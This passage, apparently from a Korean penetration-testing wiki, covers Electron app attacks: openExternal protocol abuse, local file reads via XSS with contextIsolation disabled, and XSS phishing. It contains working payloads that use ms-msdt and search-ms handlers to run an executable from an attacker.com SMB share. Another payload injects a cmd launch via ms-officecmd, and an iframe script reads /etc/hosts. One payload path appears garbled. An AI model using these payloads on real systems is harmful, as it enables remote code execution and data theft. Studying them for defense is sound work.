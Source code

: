 Electron JS 보안 모범 사례는 `openExternal` 함수를 통해 신뢰할 수 없는 콘텐츠를 받아들이지 않는 것을 권장합니다. 이는 다양한 프로토콜을 통해 RCE(원격 코드 실행)로 이어질 수 있기 때문입니다. 운영 체제는 RCE를 유발할 수 있는 다양한 프로토콜을 지원합니다. 이 주제에 대한 자세한 예시와 설명은 [이 자료](https://positive.security/blog/url-open-rce#windows-10-19042)를 참조할 수 있습니다. 해당 자료에는 이 취약점을 악용할 수 있는 Windows 프로토콜 예시가 포함되어 있습니다.

**Windows 프로토콜 취약점 예시:**
```html
<script>
window.open("ms-msdt:id%20PCWDiagnostic%20%2Fmoreoptions%20false%20%2Fskip%20true%20%2Fparam%20IT_BrowseForFile%3D%22%5Cattacker.comsmb_sharemalicious_executable.exe%22%20%2Fparam%20IT_SelectProgram%3D%22NotListed%22%20%2Fparam%20IT_AutoTroubleshoot%3D%22ts_AUTO%22")
</script>

<script>
window.open("search-ms:query=malicious_executable.exe&crumb=location:%5C%5Cattacker.com%5Csmb_share%5Ctools&displayname=Important%20update")
</script>

<script>
window.open("ms-officecmd:%7B%22id%22:3,%22LocalProviders.LaunchOfficeAppForResult%22:%7B%22details%22:%7B%22appId%22:5,%22name%22:%22Teams%22,%22discovered%22:%7B%22command%22:%22teams.exe%22,%22uri%22:%22msteams%22%7D%7D,%22filename%22:%22a:/b/%2520--disable-gpu-sandbox%2520--gpu-launcher=%22C:%5CWindows%5CSystem32%5Ccmd%2520/c%2520ping%252016843009%2520&&%2520%22%22%7D%7D")
</script>
```
## 내부 파일 읽기: XSS + contextIsolation

`contextIsolation`을 비활성화하면 `<webview>` 태그를 사용하여 로컬 파일을 읽고 유출할 수 있습니다. 다음은 이 취약점을 악용하여 내부 파일의 내용을 읽는 방법을 보여주는 예시입니다:

![](../../../.gitbook/assets/1-u1jdryuwaevwjmf_f2ttjg.png)

또한, Electron 데스크톱 앱에서 **내부 파일을 읽는** 또 다른 방법이 공유되었습니다. 이는 애플리케이션을 악용하고 데이터를 유출하기 위해 스크립트를 주입하는 것을 포함합니다:
```html
<br><BR><BR><BR>
<h1>pwn<br>
<iframe onload=j() src="/etc/hosts">xssxsxxsxs</iframe>
<script type="text/javascript">
function j(){alert('pwned contents of /etc/hosts :\n\n '+frames[0].document.body.innerText)}
</script>
```
## **RCE: XSS + 오래된 Chromium**

만약 애플리케이션에서 사용하는 **chromium**이 **오래되었고** 그 위에 **알려진 취약점**이 있다면, XSS를 통해 RCE를 얻을 수도 있습니다.\
이 **writeup**에서 예제를 볼 수 있습니다: [https://blog.electrovolt.io/posts/discord-rce/](https://blog.electrovolt.io/posts/discord-rce/)

## **내부 URL 정규식 우회를 통한 XSS 피싱**

XSS를 찾았지만 **RCE를 실행하거나 내부 파일을 도용할 수 없는 경우**, 이를 이용하여 **피싱을 통해 자격증명을 도용**해 볼 수 있습니다.
